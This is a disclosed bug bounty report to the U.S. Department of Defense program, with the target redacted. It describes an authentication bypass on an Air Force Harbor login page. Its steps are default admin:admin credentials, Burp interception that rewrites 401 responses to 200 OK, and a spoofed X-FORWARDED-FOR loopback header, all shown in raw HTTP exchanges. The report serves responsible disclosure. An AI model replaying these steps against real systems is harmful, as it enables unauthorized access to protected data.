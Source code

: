 # Authentication bypass leads to Information Disclosure at  U.S Air Force "https://███"

## Report Details
- **Report ID**: 1690548
- **URL**: https://hackerone.com/reports/1690548
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-09-03T19:07:07.081Z
- **Disclosed**: 2022-10-14T17:01:38.866Z

## Reporter
- **Username**: ludv1k
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi Hackerone Triage team,

I'm new in this program, what i understood that every Web Owned/Operated by DoD is in scope , so i did some google searches , exactly in wikipedia and i've find this PNG that confirms that U.S Air Force is in scope : https://en.wikipedia.org/wiki/United_States_Department_of_Defense#/media/File:DoD_Organization_December_2013.jpg


Authentication vulnerabilities are some of the simplest issues to understand. However, they can be among the most critical due to the obvious relationship between authentication and security. As well as potentially allowing attackers direct access to sensitive data and functionality, they also expose additional attack surface for further exploits. 

So While testing AIR Force domain "*.af.mil" , i've find this subdomain `https://███/` that have a Login page , it's look like an Admin things , so i did some pentesting , and it's time to Authentication Bypass , especially because it uses APIs to deal with Database.

## System Host(s)
█████

## Affected Product(s) and Version(s)
U.S Air Force: af.mil

## Steps to Reproduce
#Steps for POC / Exploit :
1.go "https://████/harbor/sign-in" , then username:password as : `admin:admin`
2.Please be aware that we are going to intercept every single request in our Process of exploitation ,
3.Before forwarding the request , using burp actions , use ; 
```
Do intercept : response to this request
```
4.Change the Value of response :

**From**
```
HTTP/1.1 401 Unauthorized
vary: Cookie
x-harbor-csrf-token: iigZs1FeT+ma5p15YDOTceiExGhLs734jPuOUXGYygmDuPNpxeuWKZArsB5T2GLeHoCfljAuXggKWOJ0LINdiA==
x-request-id: b418b4ea-cf8d-4b07-9774-58735c4ab631
date: Sat, 03 Sep 2022 18:42:09 GMT
content-length: 0
x-envoy-upstream-service-time: 1510
server: envoy
connection: close
```
**TO THIS and forwarded it **
```
HTTP/1.1 200 OK
vary: Cookie
x-harbor-csrf-token: iigZs1FeT+ma5p15YDOTceiExGhLs734jPuOUXGYygmDuPNpxeuWKZArsB5T2GLeHoCfljAuXggKWOJ0LINdiA==
x-request-id: b418b4ea-cf8d-4b07-9774-58735c4ab631
date: Sat, 03 Sep 2022 18:42:09 GMT
content-length: 0
x-envoy-upstream-service-time: 1510
server: envoy
connection: close

```
5.Ignore the second request about : `GET /api/v2.0/systeminfo HTTP/1.1` not neccaserry
6.Intercept again and use methods in 3,4:
```
GET /api/v2.0/users/current HTTP/1.1
Host: █████
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Cache-Control: no-cache
Pragma: no-cache
Connection: close
Referer: https://█████/harbor/sign-in
Cookie: sid=a66e49e995c2fe659086de2237f422c2; _gorilla_csrf=MTY2MjIyOTI3N3xJa05hUkhFeWNGTXhNbU5CUzNwVE1XNU5LM1o0Y2k5WlJWY3ZOVGR1WlZCM2FIRk9jMHBXTUdKc05FVTlJZ289fB0DLyMK59qRUoo_SpL9Sv0QZkyDGLDVGMNa9_UYMSWz
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-FORWARDED-FOR: 127.0.0.1
```
**Change it from*
```
HTTP/1.1 401 Unauthorized
content-type: application/json; charset=utf-8
vary: Cookie, Accept-Encoding
x-harbor-csrf-token: 1Brx7L2ZghZjt/RmUbMX2xFyuOM0OCVlj19hqoQrXzbdihs2KSxb1ml62QFiWOZ053bjHU+lxpUJ/A2P2TDItw==
x-request-id: 8f4fd500-739a-437d-a42b-621206ff51a7
date: Sat, 03 Sep 2022 18:45:12 GMT
x-envoy-upstream-service-time: 3
server: envoy
connection: close
Content-Length: 61

{"errors":[{"code":"UNAUTHORIZED","message":"UnAuthorize"}]}
```

**To**
```
HTTP/1.1 200 OK
content-type: application/json; charset=utf-8
vary: Cookie, Accept-Encoding
x-harbor-csrf-token: 1Brx7L2ZghZjt/RmUbMX2xFyuOM0OCVlj19hqoQrXzbdihs2KSxb1ml62QFiWOZ053bjHU+lxpUJ/A2P2TDItw==
x-request-id: 8f4fd500-739a-437d-a42b-621206ff51a7
date: Sat, 03 Sep 2022 18:45:12 GMT
x-envoy-upstream-service-time: 3
server: envoy
connection: close
Content-Length: 61

{"message":"Authorized"}
```

7.Keep intercepting any request and check if response header and body are :

```
HTTP/1.1 401 Unauthorized

{"errors":[{"code":"UNAUTHORIZED","message":"UnAuthorize"}]}

```

to
```
HTTP/1.1 200 OK
{"message":Authorized}
```


**Then BOOM , i was able to enter your data as shown in my ScreenShots , and for sure that when i tap in Profile , i can see UserProfile** 

████████
██████
██████████

#Please be aware that :

I wanted to stop my Hacking Process here , for not damaging or harm or delete any data for the server , so if you want to go further with exploitation to increase the impact or clear you mind that is a valid Bug, please let me know as soon as possible


## Impact

Sensitive Information Disclosure

Results that i've find so far:

```
█████████████████████████
```
Burp ScreenShot :
██████████




## Attachments
No attachments
